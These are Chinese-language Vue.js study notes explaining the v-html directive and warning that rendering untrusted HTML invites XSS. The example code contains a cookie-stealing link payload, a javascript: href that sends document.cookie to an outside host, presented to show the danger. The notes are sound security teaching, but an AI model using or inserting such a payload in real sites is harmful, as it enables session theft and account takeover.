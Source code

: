 ![](../../%E7%AC%94%E8%AE%B0%E5%9B%BE%E7%89%87/%E5%89%8D%E7%AB%AF/Vue/v-text.png)

### v-html:

​     1.作用：向指定节点中渲染包含html结构的内容。
​      2.与插值语法的区别：
​             ①.v-html会替换掉节点中所有的内容，{{xx}}则不会。
​             ②.v-html可以识别html结构。
​     3.严重注意：v-html有安全性问题！！！！
​             ①.在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
​             ②.一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<div id="root">
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
<script type="text/javascript" src="../js/vue.js"></script>
<script type="text/javascript">
    new Vue({
        el:'#root',
        data:{
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>', //可通过获取的cookies盗取账号
        }
    })
</script>
```
